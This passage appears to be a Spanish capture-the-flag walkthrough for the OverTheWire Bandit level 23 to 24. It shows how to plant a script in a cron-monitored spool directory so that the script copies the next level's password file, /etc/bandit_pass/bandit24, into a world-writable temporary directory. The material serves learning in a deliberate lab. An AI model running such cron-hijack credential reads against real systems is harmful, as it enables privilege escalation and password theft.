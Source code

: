 #### **Clave:** El script solo ejecuta ficheros propiedad de `bandit23`, por lo que debes crear uno propio y copiarlo al directorio correcto

---

### **4. Creación del script de explotación:**

#### **Preparar entorno temporal:**

```bash
cd $(mktemp -d)
touch script.sh
chmod o+x script.sh
chmod o+wx ./
```

- **mktemp -d:** *Crea un directorio temporal.*
- **touch script.sh:** *Crea el fichero del script.*
- **chmod o+x script.sh:** *Da permisos de ejecución al script.*
- **chmod o+wx ./:** *Permite escritura y ejecución en el directorio.*

---

### **5. Creación del script:**

```bash
nano script.sh
```

**Contenido del script:**

```bash
#!/usr/bin/env bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.2KwDUD75Qy/d4nipwned.txt
exit 0
```

- **cat /etc/bandit_pass/bandit24 > /tmp/tmp.2KwDUD75Qy/d4nipwned.txt:** *Copia la contraseña del fichero protegido a un fichero en el directorio temporal.*
  
---

### **6. Copiar el script al directorio monitoreado:**

```bash
cp ./script.sh /var/spool/bandit24/foo/script.sh -v
```

- *Copia el script al directorio `/var/spool/bandit24/foo/` para que el cron job lo ejecute.*

---

### **7. Monitorear la ejecución del script:**

```bash
watch -n 1 ls -l
```
